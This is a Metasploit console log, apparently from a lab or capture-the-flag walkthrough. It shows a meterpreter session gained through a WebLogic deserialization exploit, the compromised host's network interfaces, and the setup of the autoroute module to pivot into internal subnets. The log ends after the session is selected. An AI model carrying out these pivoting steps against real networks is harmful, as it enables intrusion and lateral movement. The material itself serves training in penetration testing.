 ```metasploit

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0


Interface 39
============
Name         : eth0
Hardware MAC : 02:42:c0:ac:55:03
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.172.85.3
IPv4 Netmask : 255.255.255.0


Interface 45
============
Name         : eth1
Hardware MAC : 02:42:c0:ab:54:05
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.171.84.5
IPv4 Netmask : 255.255.255.0

meterpreter > background
[*] Backgrounding session 8...
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > search autoroute

Matching Modules
================

   #  Name                         Disclosure Date  Rank    Check  Description
   -  ----                         ---------------  ----    -----  -----------
   0  post/multi/manage/autoroute                   normal  No     Multi Manage Network Route via Meterpreter Session


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/autoroute

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > use 0
msf6 post(multi/manage/autoroute) > options

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, autoadd, print, delete, default)
   NETMASK  255.255.255.0    no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION  2                yes       The session to run this module on
   SUBNET                    no        Subnet (IPv4, for example, 10.10.10.0)


View the full module info with the info, or info -d command.

msf6 post(multi/manage/autoroute) > set session 8
```